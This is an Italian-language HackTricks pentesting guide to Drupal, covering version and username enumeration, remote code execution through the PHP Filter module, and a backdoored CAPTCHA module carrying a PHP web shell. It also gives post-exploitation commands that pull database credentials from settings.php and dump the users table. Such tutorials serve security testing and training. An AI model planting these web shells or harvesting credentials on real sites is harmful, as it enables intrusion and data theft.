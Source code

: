 # Drupal

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Discovery

* Controlla **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Nodo**: Drupal **indicizza i suoi contenuti utilizzando nodi**. Un nodo può **contenere qualsiasi cosa** come un post di blog, un sondaggio, un articolo, ecc. Gli URI delle pagine sono di solito della forma `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Enumerazione

Drupal supporta **tre tipi di utenti** di default:

1. **`Amministratore`**: Questo utente ha il controllo completo sul sito web di Drupal.
2. **`Utente Autenticato`**: Questi utenti possono accedere al sito web e svolgere operazioni come aggiungere e modificare articoli in base ai loro permessi.
3. **`Anonimo`**: Tutti i visitatori del sito web sono designati come anonimi. Di default, a questi utenti è consentito solo leggere i post.

### Versione

* Controlla `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Le installazioni più recenti di Drupal di default bloccano l'accesso ai file `CHANGELOG.txt` e `README.txt`.
{% endhint %}

### Enumerazione degli username

#### Registrazione

In _/user/register_ prova semplicemente a creare un username e se il nome è già stato preso verrai notificato:

![](<../../.gitbook/assets/image (328).png>)

#### Richiesta di nuova password

Se richiedi una nuova password per un username esistente:

![](<../../.gitbook/assets/image (903).png>)

Se richiedi una nuova password per un username inesistente:

![](<../../.gitbook/assets/image (307).png>)

### Ottenere il numero di utenti

Accedendo a _/user/\<number>_ puoi vedere il numero di utenti esistenti, in questo caso sono 2 poiché _/users/3_ restituisce un errore non trovato:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Pagine nascoste

**Fuzz `/node/$` dove `$` è un numero** (da 1 a 500 per esempio).\
Potresti trovare **pagine nascoste** (test, dev) che non sono referenziate dai motori di ricerca.

#### Informazioni sui moduli installati
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatico
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Con il modulo Filtro PHP

{% hint style="warning" %}
Nelle versioni precedenti di Drupal **(prima della versione 8)**, era possibile accedere come amministratore e **abilitare il modulo `PHP filter`**, che "Consente di valutare codice/frammenti PHP incorporati."
{% endhint %}

È necessario che il **plugin php sia installato** (verifica accedendo a _/modules/php_ e se restituisce un **403** allora, **esiste**, se **non trovato**, allora il **plugin php non è installato**)

Vai su _Moduli_ -> (**Controlla**) _Filtro PHP_ -> _Salva configurazione_

![](<../../.gitbook/assets/image (247) (1).png>)

Quindi clicca su _Aggiungi contenuto_ -> Seleziona _Pagina di base_ o _Articolo_ -> Scrivi _shellcode php nel corpo_ -> Seleziona _Codice PHP_ nel _Formato testo_ -> Seleziona _Anteprima_

![](<../../.gitbook/assets/image (338).png>)

Infine accedi al nodo appena creato:
```bash
curl http://drupal-site.local/node/3
```
### Installa il modulo PHP Filter

Dalla versione **8 in poi, il** [**modulo PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **non è installato per impostazione predefinita**. Per sfruttare questa funzionalità, dovremmo **installare il modulo noi stessi**.

1. Scarica la versione più recente del modulo dal sito web di Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Una volta scaricato, vai su **`Amministrazione`** > **`Rapporti`** > **`Aggiornamenti disponibili`**.
3. Fai clic su **`Sfoglia`**, seleziona il file dalla directory in cui lo abbiamo scaricato e poi fai clic su **`Installa`**.
4. Una volta installato il modulo, possiamo fare clic su **`Contenuto`** e **creare una nuova pagina di base**, simile a quanto fatto nell'esempio di Drupal 7. Di nuovo, assicurati di **selezionare `Codice PHP` dal menu a discesa `Formato testo`**.

### Modulo con Backdoor

Un modulo con backdoor può essere creato **aggiungendo una shell a un modulo esistente**. I moduli possono essere trovati sul sito drupal.org. Scegliamo un modulo come ad esempio [CAPTCHA](https://www.drupal.org/project/captcha). Scorri verso il basso e copia il link per l'**archivio** tar.gz [archivio](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Scarica l'archivio ed estraine i contenuti.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Crea una **shell web PHP** con il contenuto:
```php
<?php
system($_GET["cmd"]);
?>
```
* Successivamente, dobbiamo creare un file **`.htaccess`** per darci accesso alla cartella. Questo è necessario poiché Drupal nega l'accesso diretto alla cartella **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* La configurazione sopra applicherà le regole per la cartella / quando richiediamo un file in /modules. Copia entrambi questi file nella cartella captcha e crea un archivio.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Presumendo di avere **accesso amministrativo** al sito web, fare clic su **`Gestisci`** e poi su **`Estendi`** nella barra laterale. Successivamente, fare clic sul pulsante **`+ Installa nuovo modulo`**, e saremo portati alla pagina di installazione, come ad esempio `http://drupal-site.local/admin/modules/install`. Navigare all'archivio Captcha backdoor e fare clic su **`Installa`**.
* Una volta completata l'installazione, navigare a **`/modules/captcha/shell.php`** per eseguire comandi.

## Post Esploitation

### Leggere settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Estrarre gli utenti dal database
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Riferimenti

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Impara l'hacking su AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
